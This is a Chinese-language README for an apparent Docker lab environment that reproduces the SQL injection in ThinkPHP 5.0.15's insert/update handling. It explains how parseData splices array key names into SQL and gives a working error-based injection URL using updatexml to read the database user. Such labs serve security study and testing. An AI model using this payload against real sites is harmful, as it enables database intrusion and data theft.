

# ThinkPHP 5.0.15 update/insert 注入

编译及运行环境：

```shell
docker-compose build
docker-compose up -d
```

启动后，访问`http://your-ip/?username[0]=inc&username[1]=id&username[2]=1`

看到`添加用户成功!int(1)`，说明环境运行成功。

## 漏洞原理

在`5.0.15`版本中的`parseData`函数，当传入的数据是一个数组时，就会绕过数据过滤，直接将键名拼接到SQL语句中，从而产生报错。影响`insert`和`update`语句。

由于`ThinkPHP5.0.15` 默认关闭了`debug`，所以需要在`debug`开启时才能获取到报错。

参考链接：

 - http://www.zerokeeper.com/vul-analysis/thinkphp-framework-50x-sql-injection-analysis.html
 - https://www.kingkk.com/2018/09/ThinkPHP-%E6%BC%8F%E6%B4%9E%E5%88%86%E6%9E%90%E9%9B%86%E5%90%88/#ThinkPHP-5-0-15-SQL%E6%B3%A8%E5%85%A5
 - https://xz.aliyun.com/t/2257

## 漏洞利用

访问

```
http://your-ip/
?username[0]=inc
&username[1]=updatexml(1,concat(0x7,user(),0x7e),1)
&username[2]=1
```



和之前的SQL注入一样，不支持子查询。